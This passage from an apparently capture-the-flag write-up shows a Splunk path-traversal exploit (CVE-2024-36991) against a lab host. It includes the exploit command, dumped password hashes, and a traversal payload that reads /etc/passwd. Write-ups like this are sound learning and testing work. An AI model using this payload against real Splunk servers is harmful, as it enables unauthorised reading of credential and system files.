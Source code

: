 ## Exploitation

### Retreiving Password Hashes

We can use a [publicly available PoC on Github](https://github.com/bigb0x/CVE-2024-36991) and retreive the user hashes from the `/etc/passwd` file on the target host:

```bash
python3 CVE-2024-36991.py -u http://haze.htb:8000/
```

```
  ______     _______     ____   ___ ____  _  _        _____  __   ___   ___  _
 / ___\ \   / | ____|   |___ \ / _ |___ \| || |      |___ / / /_ / _ \ / _ \/ |
| |    \ \ / /|  _| _____ __) | | | |__) | || |_ _____ |_ \| '_ | (_) | (_) | |
| |___  \ V / | |__|_____/ __/| |_| / __/|__   _|________) | (_) \__, |\__, | |
 \____|  \_/  |_____|   |_____|\___|_____|  |_|      |____/ \___/  /_/   /_/|_|

-> POC CVE-2024-36991. This exploit will attempt to read Splunk /etc/passwd file. 
-> By x.com/MohamedNab1l
-> Use Wisely.

[INFO] Testing single target: http://haze.htb:8000/
[VLUN] Vulnerable: http://haze.htb:8000/
:admin:$6$Ak3m7.aHgb/NOQez$O7C8Ck2lg5RaXJs9FrwPr7xbJBJxMCpqIx3TG30Pvl7JSvv0pn3vtYnt8qF4WhL7hBZygwemqn7PBj5dLBm0D1::Administrator:admin:changeme@example.com:::20152
:edward:$6$3LQHFzfmlpMgxY57$Sk32K6eknpAtcT23h6igJRuM1eCe7WAfygm103cQ22/Niwp1pTCKzc0Ok1qhV25UsoUN4t7HYfoGDb4ZCv8pw1::Edward@haze.htb:user:Edward@haze.htb:::20152
:mark:$6$j4QsAJiV8mLg/bhA$Oa/l2cgCXF8Ux7xIaDe3dMW6.Qfobo0PtztrVMHZgdGa1j8423jUvMqYuqjZa/LPd.xryUwe699/8SgNC6v2H/:::user:Mark@haze.htb:::20152
:paul:$6$Y5ds8NjDLd7SzOTW$Zg/WOJxk38KtI.ci9RFl87hhWSawfpT6X.woxTvB4rduL4rDKkE.psK7eXm6TgriABAhqdCPI4P0hcB8xz0cd1:::user:paul@haze.htb:::20152
```

Attempting to crack these hashes proves unsuccessful, so we shift our focus to other interesting files on the target host.

### Manual Path Traversal

Checking the source code of the PoC script, we can see the URL to which the script makes an HTTP request:

```python
...
paths_to_check = payload = "/en-US/modules/messaging/C:../C:../C:../C:../C:../etc/passwd"
...
```

We can confirm this by navigating to that endpoint on a web browser:

![image.png](image%203.png)

Trying to access a non-existent file, we get the following 404 response:

![image.png](image%204.png)
